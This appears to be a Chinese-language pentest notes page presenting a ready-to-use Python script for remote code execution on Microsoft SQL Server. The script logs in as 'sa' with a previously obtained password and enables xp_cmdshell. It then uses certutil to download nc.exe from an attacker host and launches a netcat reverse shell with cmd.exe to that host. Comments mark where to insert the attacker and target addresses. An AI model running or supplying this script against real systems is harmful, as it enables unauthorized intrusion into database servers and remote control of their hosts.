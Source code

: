 ```yaml
---
description: Python / Microsoft SQL Server
---
```


# ✔️ 编写 SQL Server 漏洞利用程序进行 RCE

## 脚本

* 连接到远程MSSQL数据库并启用`xp_cmdshell`，然后通过上传和执行Netcat二进制文件在目标系统上创建一个反向Shell：

<pre class="language-python"><code class="lang-python">import pexpect
import time

def enable_cmdshell():
    child.sendline("sp_configure 'show advanced options', '1'")
    print("Enabling xp_cmdshell")
    child.expect(confirmation)
    child.sendline("RECONFIGURE")
    child.sendline("sp_configure 'xp_cmdshell','1'")
    child.expect(confirmation)
    child.sendline("RECONFIGURE")
    spawn_shell()
<strong>
</strong>def spawn_shell():
    print("Upload netcat binary...")
# 按实际情况修改为攻方IP地址
    child.sendline("EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.169.xx.xxx/nc.exe C:/users/public/nc.exe'")   
    print("Spawning shell...")
 # 按实际情况修改为攻方IP地址
    child.sendline("EXEC master..xp_cmdshell 'C:/users/public/nc.exe 192.168.xx.xxx 443 -e cmd.exe'")    
    time.sleep(5)
    print("Closing...")
    child.close()
<strong>
</strong>def connect():
    print("Connecting to remote MSSQL DB...")
    child.expect(pass_prompt)
# 要修改，发送密码
    child.sendline('已获取到的密码')        
    print("Logging in...")
    child.expect(sql_prompt)
    print("Success!")


if __name__ == '__main__':
    sql_prompt = "SQL>"
    confirmation = "to install\."
    pass_prompt = "Password:"
# 按实际目标系统的IP地址修改
    command = "impacket-mssqlclient sa@192.168.xx.xxx"   
    child = pexpect.spawn(command)
    connect()
    enable_cmdshell()
    spawn_shell()

</code></pre>

## MEMO.





